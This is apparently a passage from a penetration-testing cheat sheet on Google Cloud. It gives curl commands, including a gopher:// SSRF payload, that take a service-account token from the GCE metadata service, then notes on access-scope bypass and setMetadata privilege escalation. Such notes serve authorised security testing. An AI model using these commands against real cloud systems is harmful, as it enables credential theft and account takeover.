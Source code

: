 ```bash
curl http://metadata.google.internal/computeMetadata/v1beta/instance/service-accounts/default/token
```

If you have SSRF, check if the gopher protocol is enabled. It may be possible to query the metadata service with:

```bash
curl gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/%2520HTTP%252f%2531%252e%%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

Otherwise, you must query [`http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`](http://metadata.google.internal/computeMetadata/v1beta/instance/service-accounts/default/token) with a custom header set

- note the authorization token expires within 1 hour by default

## Compute Instances

### General

- just because an access scope blocks a certain command, does not mean that any variations of that command cannot be run
    - e.g. if `gsutil ls` returns no storage buckets, you may still be able to query a storage bucket by specifying the name of the bucket for example `gsutil ls gs://storage_bucket_example-1234567`

Enumerate scripts within the following areas:

1. Instance metadata
2. Local filesystem
3. Service unit files
4. etc.
- scripts help tell what the instance is meant for and what it has access to

### Modifying Instance Metadata

**Default Service Account**

The following access scopes are offered for default service accounts:

1. Allow default access (default)
2. Allow full access to all Cloud APIs
3. Set access for each API 
- if 3 (with compute API access) or 2 is enabled, privesc is potentially possible

**Custom Service Account**

- Google discourages using access scopes for custom service accounts

One of the following privileges necessary for privesc:

1. `compute.instances.setMetadata` 
2. `compute.projects.setCommonInstanceMetadata`

It is necessary to be able to authenticate to either `[https://www.googleapis.com/auth/compute](https://www.googleapis.com/auth/compute)` or `https://www.googleapis.com/auth/cloud-platform`
